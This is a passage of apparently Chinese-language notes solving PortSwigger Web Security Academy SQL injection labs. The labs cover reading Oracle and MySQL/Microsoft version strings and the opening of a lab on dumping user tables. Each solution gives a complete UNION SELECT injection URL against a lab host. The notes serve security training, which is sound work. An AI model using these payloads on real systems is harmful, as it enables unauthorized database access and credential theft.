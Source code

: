 先確認 column 數量為 3
```
https://aca41f4d1e11b12dc01e79fd000b000b.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%20NULL,NULL%20FROM%20dual%20--%20-
```

如果要依照題目需求顯示系統版本的話，需要 `select BANNER from v$version`

因此完整 URL

```
https://aca41f4d1e11b12dc01e79fd000b000b.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%20NULL,BANNER%20FROM%20v$version%20--%20-
```

## [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

### 題目敘述
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

### 題目解釋
用 UNION 來看資料庫版本。

### 解答

```
https://aced1ff71ed4c6a2c05f055e00f8002a.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%20NULL,version()%20--%20-
```

## [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

### 題目敘述
 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 

### 題目解釋
透過 UNION 取非 Oracle 的 DB。
